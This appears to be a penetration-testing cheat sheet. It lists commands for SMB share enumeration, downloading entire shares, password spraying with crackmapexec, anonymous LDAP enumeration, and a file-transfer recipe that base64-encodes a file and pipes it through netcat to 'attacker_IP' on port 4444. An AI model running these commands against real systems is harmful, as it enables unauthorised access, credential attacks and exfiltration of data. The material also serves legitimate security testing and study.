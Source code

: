*  Connect to the share
```
smbclient //x.x.x.x/Share_Name
```

*  SMBMap for checking access on fileshares
```
smbmap -H x.x.x.x -u Username -p Password or smbmap -u '' -p '' -d 'domain.name' -H x.x.x.x
```

*  Download all files in shares:
```
smbget -R smb://x.x.x.x/Share -U Username
```

*  Use crackmapexec for spraying
```
crackmapexec smb 10.10.10.175 -u Users.txt -p Pass.txt --continue-on-success
```

*  Host smbserver by using impacket
```
impacket-smbserver -smb2support name $(pwd)
```

*  Anonymous login and file enumeration using smbmap
```
smbmap -H x.x.x.x -u anonymous -r --depth
```



## LDAP
*  Basic enumeration
```
ldapsearch -x -h domain.local -b "dc=domain,dc=local"
```

*  Check for Null enumeration
```
ldapsearch -x -h x.x.x.x -D '' -w '' -b "DC=domain,DC=local"
```



## File Transfers
1. certutil
```
certutil -encode file.zip file.b64
cat file.b64 | cmd /c C:\windows\temp\nc.exe attacker_IP 4444
```
   And locally:

```
nc -lvp 4444 > file.b64 // Remove certificates markers from top and bottom
sed -i s/\n//g file.b64 // Remove new line
base64 -d file.b64 > file.zip
```
